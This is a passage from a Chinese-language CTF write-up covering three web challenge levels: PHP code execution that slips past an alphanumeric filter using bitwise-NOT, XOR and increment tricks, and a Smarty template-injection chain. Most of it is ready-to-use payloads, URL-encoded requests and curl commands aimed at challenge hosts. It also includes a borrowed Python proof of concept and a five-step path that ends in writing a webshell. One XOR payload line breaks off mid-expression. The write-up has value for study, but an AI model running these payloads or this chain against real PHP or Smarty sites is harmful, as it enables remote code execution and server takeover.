`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`是随机返回一个数组,多刷新几次就出来了


# level 25

## PHP 特性	取反绕过



和无参命令执行差不多，只是多了一步取反绕过WAF

PHP 的 `~` 对字符串是**逐字节按位取反**，高位字节取反后正好能变成字母；而 `[A-Za-z0-9]` 只匹配 ASCII 字母数字，高位字节（如 `0x8C`）不命中，于是绕过。

再配合 PHP 7+ 支持“表达式结果直接当函数调用”：

```php
("system")("cat /flag");   // 等价 system('cat /flag')
```

所以核心 payload 是：

```php
(~"\x8C\x86\x8C\x8B\x9A\x92")(~"\x9C\x9E\x8B\xDF\xD0\x99\x93\x9E\x98");
```

url编码后的payload

```
http://80-fcefdfac-cf9d-4288-a6be-f841b30f3e4b.challenge.ctfplus.cn/?code=%28%7E%22%8C%86%8C%8B%9A%92%22%29%28%7E%22%9C%9E%8B%DF%D0%99%93%9E%98%22%29%3B
```




# level 26

## PHP 特性	无字母数字的代码执行



三种方法

**取反**

`~` 对字符串逐字节做 `255 - x`：

```
~"\x8C\x86\x8C\x8B\x9A\x92"   // = "system"
```

| 字节 | 0x8C | 0x86 | 0x8C | 0x8B | 0x9A | 0x92 |
| ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| 取反 | s    | y    | s    | t    | e    | m    |

payload：

```
(~"\x8C\x86\x8C\x8B\x9A\x92")(~"\x9C\x9E\x8B\xDF\xD0\x99\x93\x9E\x98");
// = system('cat /flag')
```

生成：

```
php -r 'echo urlencode(~"system");'      # %8C%86%8C%8B%9A%92
php -r 'echo urlencode(~"cat /flag");'   # %9C%9E%8B%DF%D0%99%93%9E%98
```

**异或**

PHP 里 `^` 对两个字符串逐字节异或：

```
'!' ^ '@'   // 0x21 ^ 0x40 = 0x61 = 'a'
```

所以可以拿**两个纯标点字符**异或出任意字母。`system` 的拆法：

| 目标 | 表达式    | 计算           |
| ---- | --------- | -------------- |
| s    | `'('^'['` | 0x28^0x5B=0x73 |
| y    | `'"'^'['` | 0x22^0x5B=0x79 |
| s    | `'('^'['` | 0x73           |
| t    | `'('^'\'` | 0x28^0x5C=0x74 |
| e    | `'%'^'@'` | 0x25^0x40=0x65 |
| m    | `'-'^'@'` | 0x2D^0x40=0x6D |

完整可执行 payload（我本地实测跑通，执行 `system('echo XOR_OK')`）：

```
(('('^'[').('"'^'[').('('^'[').('('^'\\').('%'^'@').('-'^'@'))(('%'^'@').('#'^'@').('('^'@').('/'^'@').('@'^'
```

**自增自减**

自增自减

```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```

看不懂思密达，我用的方法一

hackbar有点小bug传不上

用curl

```
curl -s -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data 'code=%28%7E%22%8C%86%8C%8B%9A%92%22%29%28%7E%22%9C%9E%8B%DF%D0%99%93%9E%98%22%29%3B' \
  http://80-990f209b-d1cd-40ca-8531-071adddfe71c.challenge.ctfplus.cn/
```


# level 27

## 模板注入导致的RCE



此题应该是smarty模板注入

idekctf 2024 [idekCTF 2024 报道 - Hamayan Hamayan](https://blog.hamayanhamayan.com/entry/2024/08/20/092636)

偷的别人的 poc [Idek ctf 2024 网络文章（后续） (zenn.dev)](https://zenn.dev/tchen/articles/83f26ca77948fa)

```
import hashlib
import requests
from urllib.parse import quote

URL = "填你自己的"
cwd = '/app'


target_file = '../{Closure::fromCallable(system)->__invoke("cat /flag-*")}/../../pages/about'
w1 = requests.get(URL + "?page=" + quote(target_file))
print(w1.status_code)
print(w1.text)


filehash = hashlib.sha1(f"//{cwd}/pages/{target_file}{cwd}/templates/".encode())
template_c_file = filehash.hexdigest() + "_0.file_" + target_file.split("/")[-1] + ".php"
template_c_file_path = "../templates_c/" + template_c_file

w2 = requests.get(URL + "?page=" + template_c_file_path)
print(w2.status_code)
print(w2.text)
```

还是看不懂，看大佬文章学习下

大概原理是：

**路径穿越把 payload 带进模板资源名 → Smarty 编译缓存把它落盘 → 再加载缓存文件触发 SSTI → 任意写文件 → RCE。**

**利用链（5 步）**

```
① page 拼进 file:// 路径（可 ../ 穿越，open_basedir=/app）
        ↓
② 把 {...} 当"目录名"塞进路径，再用 ../ 退回 pages/home
   page = {payload}/../../../home   ← 页面照常渲染，但 payload 被写进编译文件
        ↓
③ 算出编译文件名
   uid = sha1("///app/pages/" + page + "/app/templates/")
   文件 = /app/templates_c/<uid>_0.file_home.php
        ↓
④ 加载这个编译文件当模板
   ?page=../templates_c/<uid>_0.file_home.php
   → 文件里的 {...} 被解析执行（SSTI）
        ↓
⑤ Smarty 5 用对象方法写 webshell，访问 / 拿 flag
   {$smarty["template_object"]->getSmarty()->writeFile(...)}
```
